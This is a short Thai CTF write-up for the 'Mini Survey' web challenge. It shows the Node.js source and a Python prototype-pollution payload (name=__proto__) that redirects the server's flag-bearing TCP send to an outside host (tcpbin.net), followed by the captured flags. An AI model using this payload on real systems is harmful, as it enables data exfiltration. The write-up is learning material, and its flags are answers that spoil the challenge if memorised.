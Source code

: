 # web/Mini Survey

## index.js
```js
const updateDBs = require("./serverComs");
...
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };
    
    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
...
```
งืม~~ ยังไม่เห็นไรมาก ลองไปดู func updateDBs ดีกว่า

## serverComs.js
```js
...
backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {backupServerHost = data.host}
    if (data.port != undefined) {backupServerPort = data.port}

    const options = {host: backupServerHost || "localhost", port: backupServerPort || "8888" };
    console.log("options:",options);

    const socket = net.connect(options, () => {
        socket.write(postData);
        socket.end();
    });
    ...
}
function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}
...
```
func updateDBs จะเพิ่ม flag เข้าไปใน commData (dataObj ที่ถูก clone มา) และก็จะเรียก func sendData เพื่อเชื่อมต่อ แบบ tcp ไปยังที่ไหนสักที่ และก็ส่ง postData ที่มี flag อยู่ไป

## ทำไงล่ะทีนี้?
ผมไปเจอ https://t.ly/EgVId พบว่าเราสามารถใช้ `__proto__` เพื่อไป set prop ของ object อื่นๆได้ (ถ้าทฤษฎีเพี้ยนอย่าโกรธกันเลย) ผมก็เลยได้ script เพื่อเอา flag คร่าวๆประมาณนี้
```python
from requests import request
payload = 'name=__proto__&city=port&pollutionRate=47183' # city = key, pollutionRate = value
request("POST", "??", headers={'Content-Type':'application/x-www-form-urlencoded'}, data=payload)
```
ส่วน host, port ก็ใช้ tcpbin.net เอาครับ

## Flag
`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
`nite{9wd_t0_th3_r35cu3_dp54kf}` fake flag in prod 🤣

![firstblood](firstblodXD.png)

ได้ firstblood ครั้งแรกคั้บบบ~~
